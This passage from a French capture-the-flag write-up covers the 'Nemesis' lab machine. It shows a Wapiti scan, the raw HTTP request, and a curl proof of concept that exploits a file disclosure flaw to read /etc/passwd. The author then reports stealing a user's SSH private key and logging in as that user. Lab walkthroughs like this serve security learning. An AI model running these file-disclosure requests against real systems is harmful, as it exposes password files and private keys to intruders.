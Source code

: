 ```js
}
```

## Everything went better than expected

Finalement j'ai lancé `Wapiti` sur le second port :

```bash
wapiti -u http://192.168.56.175:52845/ -v2 --color
```

Une faille de directory traversal a immédiatement été trouvée :

```
---
Linux local file disclosure vulnerability in http://192.168.56.175:52845/ via injection in the parameter message
Evil request:
    POST / HTTP/1.1
    host: 192.168.56.175:52845
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.56.175:52845/
    content-length: 31
    Content-Type: application/x-www-form-urlencoded

    submit=&message=%2Fetc%2Fpasswd
---
```

Le rapport généré par `Wapiti` donne le PoC suivant :

```bash
curl "http://192.168.56.175:52845/" -e "http://192.168.56.175:52845/" -d "submit=&message=%2Fetc%2Fpasswd"
```

Je remarque ainsi la présence d'un utilisateur `Thanos` :

```
thanos:x:1001:1001:Thanos,,,:/home/thanos:/bin/bash
```

J'ai tenté de lire sa clé privée SSH avec la faille web et ça a fonctionné. Une fois connecté je remarque un script Python dont le propriétaire est `carlos` :

```console
thanos@nemesis:~$ id
uid=1001(thanos) gid=1001(thanos) groups=1001(thanos)
thanos@nemesis:~$ ls -al
total 40
drwxr-xr-x 4 thanos thanos 4096 Oct 25  2020 .
drwxr-xr-x 4 root   root   4096 Oct  6  2020 ..
-rw-r--r-- 1 carlos carlos  345 Oct  3  2020 backup.py
-rw------- 1 thanos thanos   72 Oct 25  2020 .bash_history
-rw-r--r-- 1 thanos thanos  220 Oct  6  2020 .bash_logout
-rw-r--r-- 1 thanos thanos 3526 Oct  6  2020 .bashrc
-rw-r--r-- 1 thanos thanos  800 Oct  6  2020 flag1.txt
drwxr-xr-x 3 thanos thanos 4096 Oct  7  2020 .local
-rw-r--r-- 1 thanos thanos  807 Oct  6  2020 .profile
drwxr-xr-x 2 thanos thanos 4096 Oct  7  2020 .ssh
thanos@nemesis:~$ cat flag1.txt 

                          _.-'|
                      _.-'    |
```